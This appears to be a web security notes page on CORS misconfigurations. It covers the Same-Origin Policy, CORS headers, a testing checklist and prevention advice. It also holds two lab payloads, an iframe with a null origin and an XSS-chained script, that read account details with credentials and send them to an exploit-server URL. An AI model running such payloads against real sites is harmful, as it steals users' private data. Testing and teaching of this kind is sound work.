 # Cross-Origin Resource Sharing (CORS)

Cross-Origin Resource Sharing (CORS) is a browser security feature that allows a web page from one domain (the "origin") to access resources on another domain. It is an extension of the Same-Origin Policy (SOP) and provides a way to relax its restrictions in a controlled manner.

While CORS adds flexibility, a misconfigured policy can open the door to cross-domain attacks. It is important to note that **CORS is not a protection against Cross-Site Request Forgery (CSRF)**.

## TL;DR Checks

- [ ] Check if arbitrary origins are reflected in the `Access-Control-Allow-Origin` response header
- [ ] Check if `Access-Control-Allow-Credentials` is set to `true`
- [ ] Check if null origin is reflected
- [ ] Try different variations to see if there are any parsing errors
	- [ ] subdomain.target.com
	- [ ] target.com.evil.com
	- [ ] eviltarget.com
- [ ] Check if insecure origins are allowed

## Same-Origin Policy (SOP)

The Same-Origin Policy is a fundamental security mechanism that restricts how a document or script loaded from one **origin** can interact with a resource from another origin.

An "origin" is defined by the combination of the **protocol** (e.g., `http`, `https`), **hostname** (e.g., `www.example.com`), and **port** (e.g., `80`, `443`). If all three match, the origins are the same.

**Example:**
If a page is loaded from `https://www.example.com`, the following table shows which URLs it can and cannot access data from according to the SOP:

| URL | Same Origin? | Reason |
| :--- | :---: | :--- |
| `https://www.example.com/page.html` | Yes | Same protocol, host, and port. |
| `http://www.example.com` | No | Different protocol (HTTP vs. HTTPS). |
| `https://store.example.com` | No | Different hostname (subdomain). |
| `https://www.example.com:8080` | No | Different port. |

>[!tip]
>The SOP generally allows a domain to *send* requests to other domains, but it prevents the requesting domain from *reading* the responses.

## How CORS Works

CORS allows servers to explicitly specify which origins are permitted to access their resources. This is done through HTTP headers.

- **`Access-Control-Allow-Origin`:** This is the most important CORS header. The server includes this header in its response to indicate which origins are allowed. For example:

```http
Access-Control-Allow-Origin: https://www.trusted-site.com
```

A wildcard (`*`) can be used, but this is often insecure as it allows any domain to access the resource.

- **`Access-Control-Allow-Credentials: true`**: Indicates cross-origin requests can include cookies.  

- **Preflight Requests:** For requests that can modify data (e.g., `PUT`, `DELETE`) or use certain headers, the browser first sends a "preflight" request using the `OPTIONS` method. This request checks if the server understands and approves the actual request. If the server responds favorably to the `OPTIONS` request, the browser then sends the actual request.

## Parsing Errors

Be sure to check for errors in `Origin` header parsing.

For example, suppose an application grants access to all domains ending in:

`normal-website.com`

Maybe try:

- hackersnormal-website.com
- normal-website.com.evil-user.net

Also check arbitrary subdomains:

- evil.normal-website.com

## Whilelisted NULL origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Sample payload for `NULL` origin:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0adb00af04759e1980f703df00da0006.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
	location='https://exploit-0a310064045b9e858037027701af008a.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

## Exploiting XSS via CORS Trust Relationships

If the vulnerable site trusts an origin that is vulnerable to XSS, then the attacker might be able to inject JavaScript on the *trusted* site that uses CORS to steal sensitive information from the *trusting* site. 

Example payload when there's an XSS on a trusted site:

```
<script>
document.location="http://stock.0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac4000c033411d480bf1bcb01920034.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

## Breaking TLS with Poorly Configured CORS

Be sure to check if CORS accepts insecure `http` sites. 

## Preventing CORS Misconfigurations

- If a web resource contains sensitive information, the origin should be properly specified in the `Access-Control-Allow-Origin` header. 
- Do not dynamically reflect arbitrary origins in the ACAO header.
- Avoid whitelisting `null` origins. 
- Avoid using wildcards on internal networks. Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.

>[!warning]
>CORS defines browser behaviors and is never a replacement for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.








